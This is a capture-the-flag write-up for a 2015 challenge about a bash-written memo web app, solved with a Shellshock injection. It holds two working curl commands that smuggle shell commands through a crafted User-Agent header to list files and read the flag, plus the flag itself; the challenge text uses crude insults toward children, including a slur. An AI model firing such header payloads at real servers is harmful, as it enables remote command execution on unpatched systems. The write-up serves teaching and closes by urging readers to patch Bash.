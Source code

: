 # GuessTheNumber

## Problem

"How did I end up here?" is the only question you can think of since you've become a high school teacher. Let's face it, you hate children. Bunch of egocentric retards. Anyway, you are not going to take it anymore. It's time to have your little midlife crisis right in the face of these fuckers.

Good thing that you're in the middle of some project days and these little dipshits wrote a simple message storing web application. How cute. It's written in bash... that's... that's... aw- no... bashful. You've got the source, you've got the skills. 0wn the shit out of this and show them who's b0ss.

[Challenge](https://school.fluxfingers.net:1503/) (up as of 25 Oct, 2015)

[Source](bashful.tar.bz2)

## Solution

Credit: [@emedvedev](https://github.com/emedvedev)

**Note**: we'll be taking a shortcut not originally intended by the challenge developers, so if you'd like to know how to properly exploit a website written in bash (no, grandson, we don't normally do that here in 2015, don't be frightened), find another write-up.

The site in question is a memo service: it gives you a `sessid` and lets you write memos while escaping all the special chars. There's also a `DEBUG` parameter, a vulnerability allowing you to mess with environment variables, and the `sessid` itself could be exploited, too, so there's probably a million ways to solve it. Well, disregard all that: it's written in Bash, so why try hard when you have [Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug))?

```
$ curl -H "User-Agent: () { :; }; /bin/ls" https://school.fluxfingers.net:1503/
404.sh
flag
home.html
home.sh
index.sh

$ curl -H "User-Agent: () { :; }; /bin/cat flag" https://school.fluxfingers.net:1503/
flag{as_classic_as_it_could_be}
```

Done.

Again, that was not an intended solution, but there's still something to learn here: even if you're as security-conscious as most CTF organizers, eventually there _will_ be an attack vector you neglected, more often than not a stupidly simple one. Pay attention to the little things, be vigilant and go patch your Bash. Right now.
